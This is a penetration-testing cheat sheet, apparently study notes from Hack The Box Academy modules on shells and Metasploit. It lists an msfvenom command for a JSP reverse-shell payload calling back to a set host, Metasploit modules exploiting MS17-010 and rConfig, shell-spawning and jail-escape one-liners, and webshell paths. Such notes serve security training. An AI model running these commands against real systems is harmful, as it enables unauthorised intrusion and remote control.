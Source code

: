| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`       | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                                 |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                            | Metasploit exploit module used to check if a host is vulnerable to ms17_010                                                                                                                           |
| `use exploit/windows/smb/ms17_010_psexec`                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010                                                                               |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                       | Metasploit exploit module that can be used to obtain a reverse shell on a vulnerable linux system hosting rConfig 3.9.6                                                                               |
| `python -c 'import pty; pty.spawn("/bin/sh")'`                                                      | Python command used to spawn an interactive shell on a linux-based system                                                                                                                             |
| `/bin/sh -i`                                                                                        | Spawns an interactive shell on a linux-based system                                                                                                                                                   |
| `perl —e 'exec "/bin/sh";'`                                                                         | Uses perl to spawn an interactive shell on a linux-based system                                                                                                                                       |
| `ruby: exec "/bin/sh"`                                                                              | Uses ruby to spawn an interactive shell on a linux-based system                                                                                                                                       |
| `Lua: os.execute('/bin/sh')`                                                                        | Uses Lua to spawn an interactive shell on a linux-based system                                                                                                                                        |
| `awk 'BEGIN {system("/bin/sh")}'`                                                                   | Uses awk command to spawn an interactive shell on a linux-based system                                                                                                                                |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`                             | Uses find command to spawn an interactive shell on a linux-based system                                                                                                                               |
| `find . -exec /bin/sh \; -quit`                                                                     | An alternative way to use the find command to spawn an interactive shell on a linux-based system                                                                                                      |
| `vim -c ':!/bin/sh'`                                                                                | Uses the text-editor VIM to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                           |
| `ls -la <path/to/fileorbinary>`                                                                     | Used to list files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute          |
| `sudo -l`                                                                                           | Displays the commands that the currently logged on user can run as sudo                                                                                                                               |
| `/usr/share/webshells/laudanum`                                                                     | Location of laudanum webshells on ParrotOS and Pwnbox                                                                                                                                                 |
| `/usr/share/nishang/Antak-WebShell`                                                                 | Location of Antak-Webshell on Parrot OS and Pwnbox                                                                                                                                                    |

### Complete

[Link of Completion](https://academy.hackthebox.com/achievement/713396/115)

## Using the Metasploit Framework

### Cheatsheet

**MSFconsole Commands**

| **Command**                                      | **Description**                                                                                                                                   |
| :----------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------ |
| `show exploits`                                  | Show all exploits within the Framework.                                                                                                           |